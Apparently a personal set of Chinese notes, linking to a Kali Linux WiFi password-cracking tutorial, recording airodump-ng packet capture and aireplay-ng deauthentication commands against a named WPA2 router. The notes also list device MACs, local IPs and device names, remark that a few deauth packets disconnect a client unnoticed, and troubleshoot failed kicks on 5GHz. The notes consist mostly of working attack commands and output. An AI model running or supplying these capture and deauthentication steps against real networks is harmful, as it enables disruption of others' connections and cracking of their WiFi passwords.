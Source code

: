 [使用Kali Linux 暴力破解wifi密码详细步骤](https://www.mzbky.com/327.html)

airodump-ng wlan0
airodump --channel 9 --bssid xx:xx:xx:xx --write test1 wlan0
获取包数据
wireshark找开 .cap

推人下线
aireplay-ng --deauth 1000 -a xx:xx:xx:xx wlan0
aireplay-ng --deauth 1000 -a xx -c xx:xx:xx:xx wlan0
-c <target>
--deauth <packets>
  5-10 可能下线，而让对方不察觉
  1000 对方可以明显看到下线
-a <ap> 就是路由器

airodump-ng wlan0
 60:3A:7C:B3:ED:66  -48        1        0    0 161 1300   WPA2 CCMP   PSK  azhao                                                               

airodump-ng --bssid 60:3A:7C:B3:ED:66 --write test1 wlan0
airodump-ng --channel 1 --bssid 60:3A:7C:B3:ED:66 --write test1 wlan0
airodump-ng --channel 161 --bssid 60:3A:7C:B3:ED:66 --write test1 wlan0
60:3A:7C:B3:ED:66  1A:F8:0D:4C:17:D8  -32    0 -24     18       89                                                                            
60:3A:7C:B3:ED:66  94:87:E0:20:0D:05  -47    0 - 6e     0        1 

问题：为什么看不到我的电脑的？ LAPTOP-AZHAOHW
答：有的时间就能看到，有点“随机”

这是从路由器拿到的数据
LAPTOP-AZHAOHW
IP：192.168.0.104 | MAC：F8-E4-E3-AF-28-6E | 5G无线连接
HONOR_V30_PRO-5041e620914
IP：192.168.0.102 | MAC：1A-F8-0D-4C-17-D8 | 5G无线连接
zhimi-airpurifier-m1_miio126876
IP：192.168.0.100 | MAC：F0-B4-29-07-79-A4 | 2.4G无线连接
MI8-azhaomi8
IP：192.168.0.101 | MAC：94-87-E0-20-0D-05 | 5G无线连接

aireplay-ng --deauth 1000 -a 60:3A:7C:B3:ED:66 -c 1A:F8:0D:4C:17:D8 wlan0
60:3A:7C:B3:ED:66  -16      114        5    0 161 1300   WPA2 CCMP   PSK  azhao                                                               
60:3A:7C:B3:ED:64  -30       46       16    0   1  540   WPA2 CCMP   PSK  azhao

报错 bssid 不可用可以参考，加-D 处理
[有关在使用aireplay-ng处理5Ghz频段的wifi时出现“No such Bssid available”的解决方法](https://my.oschina.net/u/4255339/blog/4429382)

 aireplay-ng --deauth 1000 -a 60:3A:7C:B3:ED:66 -c 1A:F8:0D:4C:17:D8 -D wlan0
 aireplay-ng --deauth 1000 -a 60:3A:7C:B3:ED:66 -c 94:87:E0:20:0D:05 -D wlan0
 对2G网络，有另外的 bssid
 aireplay-ng --deauth 1000 -a 60:3A:7C:B3:ED:64 -c 1A:F8:0D:4C:17:D8 -D wlan0

 但问题：华为好像踢不下去。。。
 小米也不行
 是因为5G带宽太大吗？

参考 Aircrack-ng 论坛 
Aircrack-ng >General Category >Newbies >aireplay-ng: No such BSSID available but still detected.
https://forum.aircrack-ng.org/index.php?topic=4077.0
也可能是踢下去又上来了
